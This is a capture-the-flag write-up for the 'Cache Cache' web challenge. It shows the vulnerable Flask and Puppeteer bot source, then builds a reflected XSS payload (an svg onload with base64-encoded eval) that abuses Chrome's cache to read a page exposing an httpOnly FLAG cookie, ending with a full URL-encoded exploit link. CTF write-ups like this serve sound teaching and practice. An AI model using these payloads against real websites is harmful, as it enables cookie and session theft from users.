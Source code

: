 # web - Cache Cache

![head](head.png)

## Overview

**Source of the website :**

```py
from flask import Flask, request, Response
app = Flask(__name__)

@app.get("/")
def index():
    res = Response(request.cookies.get("FLAG") if request.cookies.get("FLAG") else "Not authenticated!")
    res.headers["Access-Control-Allow-Origin"] = "*"
    return res

app.run("0.0.0.0", 8000)
```

**Source of the bot :**

```js
const { delay, handleTargetCreated, logMainInfo } = require("./utils");
const puppeteer = require("puppeteer");

// Banner
const tips = ["Every console.log usage on the bot will be sent back to you :)"];
console.log(`==========\nTips: ${tips[Math.floor(Math.random() * tips.length)]}\n==========`);

// Spawn the bot and navigate to the user provided link
async function goto(url) {
    logMainInfo("Starting the browser...");
	const browser = await puppeteer.launch({
		headless: "new",
		ignoreHTTPSErrors: true,
		args: [
			"--no-sandbox",
            "--incognito",
            "--disable-gpu",
            "--disable-jit",
            "--disable-wasm",
            "--disable-dev-shm-usage"
		],
		executablePath: "/usr/bin/chromium-browser"
	});

    // Hook tabs events
    browser.on("targetcreated", handleTargetCreated);
	const page = await browser.newPage();
	await page.setDefaultNavigationTimeout(3000);

    /* ** CHALLENGE LOGIC ** */
    await page.setCookie({
        name: "FLAG",
        value: process.env.FLAG,
        path: "/",
        httpOnly: true,
        samesite: "Strict",
        secure: false,
        domain: process.env.DOMAIN
    });
	try {
	    await page.goto(url);
	} catch {}
    await delay(3000);

    console.log("\nLeaving o/");
    browser.close();
	return;
}

// Handle TCP data
process.stdin.on("data", (data) => {
    const url = data.toString().trim();

    if (!url || !(url.startsWith("http://") || url.startsWith("https://"))) {
        console.log("[ERROR] Invalid URL!");
        process.exit(1);
    }

    goto(url).then(() => process.exit(0));
});
```

Looking at the source code, it's possible to see that that the website print's the `FLAG` cookie of anyone wisiting it. It's important to note that the webiste add's the CORS header `Access-Control-Allow-Origin: *`

The bot behave as the average office worker, meaning it goes to every link that we give him.

## Access-Control-Allow-Origin: * ?

Firstly, let's explain what `Access-Control-Allow-Origin: *` header means.

By looking at mozilla doc here[https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Origin], we can see the following

![1](1.png)

Basically, this header allows the page to be accessed from any orgin (meaning you can fetch this page from another website), but without credntials. So, the cookies won't be included.

So, even with an XSS, we can't get the content of the cookie ...,  Right ?

## Chrome cache vs Firefox cache

Firefox caches requests in a maner that keeps CORS headers, like describes in the schem below

![2](2.png)

Whereas Chrome doesn't cache CORS

![3](3.png)

## Vulnerability

So, what we need to do, is to use the fact that the bot uses Chrome, to open a tab on the website that displays the cookie and then, use another website in the same domain to make it fetch the page. This will use the cache, and show the cookie. In order to do that, we need an XSS, but, wait, we don't have an XSS.

## Finding the XSS

In order to find the XSS, we need to go back to another challenge. Looking back at the web challenge I already solved, I remebered that I found somthing that could likely be transformed in an XSS in `sampleHub` challenge.

Infact, the error message of `file not found` is vulnerable to XSS. Il we url encode `<svg onload=alert(1)>`, we have this nice popup showing. It's important to note that it's note possible to use `/` in the payload, because of the `basename` javascript function. To be free from this limitation, I decided to do a base64 of my javascript code with the payload `<svg onload=eval(atob('base64code'))>`.

![4](4.png)


## Exploit

To exploit this vulrabilities, we firstly need to open a nex tab, to load the website that shows the cookie. This can easyly be done with javascript.

```js
window.open("http://cache-cache.heroctf.fr:5100/", '_blank').focus();
```

Then, we need to get the page and print the result in the console (we have access to the bot console output). This request need to include `cache: 'force-cache'` in order to get the page from the cache.

```js
fetch("http://cache-cache.heroctf.fr:5100/", {cache: 'force-cache'}).then((r) => r.text()).then((q) => console.log(q))
```

Finally, to send the request to the cache, we need to wait the full opening of the first page. In order to do that, we just have to use the function `setTimeout`, to delay the fetch (2s).

This gives us the final js payload

```js
window.open("http://cache-cache.heroctf.fr:5100/", '_blank').focus();
setTimeout(() => {fetch("http://cache-cache.heroctf.fr:5100/", {cache: 'force-cache'}).then((r) => r.text()).then((q) => console.log(q))}, 2000)
```

That we add to our full XSS payload, wich is finally url-encoded

```
%3Csvg%20onload%3Deval%28atob%28%27d2luZG93Lm9wZW4oImh0dHA6Ly9jYWNoZS1jYWNoZS5oZXJvY3RmLmZyOjUxMDAvIiwgJ19ibGFuaycpLmZvY3VzKCk7CnNldFRpbWVvdXQoKCkgPT4ge2ZldGNoKCJodHRwOi8vY2FjaGUtY2FjaGUuaGVyb2N0Zi5mcjo1MTAwLyIsIHtjYWNoZTogJ2ZvcmNlLWNhY2hlJ30pLnRoZW4oKHIpID0%2BIHIudGV4dCgpKS50aGVuKChxKSA9PiBjb25zb2xlLmxvZyhxKSl9LCAyMDAwKQ%3D%3D%27%29%29%3E
```

The final reflected XSS url will be :

```
http://web.heroctf.fr:5300/download/%3Csvg%20onload%3Deval%28atob%28%27d2luZG93Lm9wZW4oImh0dHA6Ly9jYWNoZS1jYWNoZS5oZXJvY3RmLmZyOjUxMDAvIiwgJ19ibGFuaycpLmZvY3VzKCk7CnNldFRpbWVvdXQoKCkgPT4ge2ZldGNoKCJodHRwOi8vY2FjaGUtY2FjaGUuaGVyb2N0Zi5mcjo1MTAwLyIsIHtjYWNoZTogJ2ZvcmNlLWNhY2hlJ30pLnRoZW4oKHIpID0%2BIHIudGV4dCgpKS50aGVuKChxKSA9PiBjb25zb2xlLmxvZyhxKSl9LCAyMDAwKQ%3D%3D%27%29%29%3E
```

![5](5.png)

And here we get the flag, thanks for the challenge ! 